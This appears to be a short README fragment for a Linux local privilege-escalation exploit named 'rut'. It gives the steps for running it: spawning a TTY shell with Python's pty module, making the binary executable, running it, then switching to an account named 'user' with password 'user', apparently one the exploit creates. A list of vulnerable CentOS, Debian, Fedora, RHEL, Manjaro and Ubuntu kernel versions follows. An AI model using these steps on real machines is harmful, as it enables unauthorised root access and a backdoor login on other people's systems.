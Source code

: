 $ python -c 'import pty;pty.spawn("/bin/sh")'<br>
$ chmod +x rut<br>
$ ./rut
<br><br>
if success<br>
$ su user<br>
( user&pass = <b>user</b> )



    CentOS 8/Stream (4.18.0-80.el8.x86_64 ~ xxx)
    CentOS 7 (4.20.11-1.el7.x86_64, 5.4.179-1.el7.x86_64, 5.9.6-1.el7.x86_64)
    Debian 11 (5.10.0-8-amd64 ~ xxx)
    Fedora 33 (5.8.15-301.fc33.x86_64 ~ xxx)
    Manjaro 18 (xxx ~ xxx)
    RHEL 8 (4.18.0-80.el8.x86_64 ~ xxx)
    Ubuntu 17 (4.10.0-19-generic ~ xxx)
    Ubuntu 18 (xxx ~ xxx)
    Ubuntu 19 (5.0.0-38-generic ~ xxx)
    Ubuntu 20 (xxx ~ xxx)
